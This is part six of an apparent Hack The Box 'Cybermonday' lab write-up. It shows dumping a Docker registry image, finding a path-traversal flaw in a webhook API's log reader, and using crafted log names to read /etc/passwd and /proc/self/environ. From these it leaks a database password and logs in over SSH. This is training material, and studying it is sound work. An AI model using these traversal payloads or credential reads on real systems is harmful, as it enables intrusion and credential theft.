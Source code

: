 # HTB Cybermonday - Reading the Source

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[**Reading the Source**](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Now that we have access to an internal Docker registry, let's use `curl` to see if we can get a list of images the registry contains.
```shell
$ curl http://<registry ip>:5000/v2/_catalog

{"repositories":["cybermonday_api"]}
```

It looks like this registry holds the image for the webhook API. We can download this image to look through the source and see if we can spot any vulnerabilities to exploit. While we could configure our local Docker version to use the `SOCKS` proxy and download the image that way, since we're not looking to actually run the container it's probably easier to download [DockerRegistryGrabber](https://github.com/Syzik/DockerRegistryGrabber) and get the image that way.
```shell
$ proxychains python3 DockerGraber.py http://<registry ip> --dump cybermonday_api

[+] BlobSum found 27
[+] Dumping cybermonday_api
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d6...
```

Once we have all the blobs we can extract them all with:
```shell
$ for f in *.tar.gz; do tar xf "$f"; done
```

And now we have the filesystem for the `cybermonday_api` container. The source for the webhook API can be found in `/var/www/html`. Looking through this source code, we see there's an undocumented endpoint for `createLogFile` type webhooks that lets us list and read the logs that are created. It also requires a different type of authentication to the token we've been using. Let's run the `list` action on the original webhook we found in the changelog.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "list"}'

{"status":"success","message":[...]}
```

If you made any requests to create a log earlier, you'll see them listed here. Next we want to test the read function.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": "test-<timestamp>.log"}'

{"status":"success","message":"test"}
```

Okay so we get the basic idea, you create logs with the webhook then read them here. The read log function checks for path traversal with a `regex` pattern and makes sure the file has `log` in the name. But if you look closer you might spot a problem. Theres a string substitution made _after_ the `regex` check.
```php
preg_match("/\.\.\//", $logName)
str_replace(' ', '', $logName)
```

Which means we can still abuse this endpoint for path traversal. We need to also be sure to include `log` in the name, but for that we can just re-enter the `/logs` directory and back out again. So a request to fetch `/etc/passwd` would look like this:
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./etc/passwd"}'

{"status":"success","message":"root:x:0:0:root:\/root:\/bi..."}
```

Now we have path traversal, but what can we do with it? The code uses `file_get_contents` rather than `include` so we can't inject any code. We could try and see if another `.env` file exists.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./var/www/html/.env"}'

{"status":"error","message":"This log does not exist"}
```

No luck. But there is one file we can request the might be useful. Linux has a number of virtual directories in `/proc` that let you get the state of different processes. For the PHP server itself we can use `/proc/self`, and in particular `/proc/self/environ`.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./proc/self/environ"}'

{"status":"success","message":"HOSTNAME=e1862f4e1242\u0000PHP..."}
```

This gives us the environment variables set for the PHP server process. If we look carefully, we see one variable that might be of use.
```
DBPASS=<password>
```

It's pretty buried in there and can be easy to miss with the JSON formatting, but we can see a password in the environment that might just be what we're looking for. If we try to `ssh` to the host using the username we found earlier and this password:
```shell
$ ssh john@<host ip>
john@<host ip>'s password:

john@cybermonday:~$ 
```

Success. Grab the flag in `user.txt` and then let's continue on to root.

Next: [Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)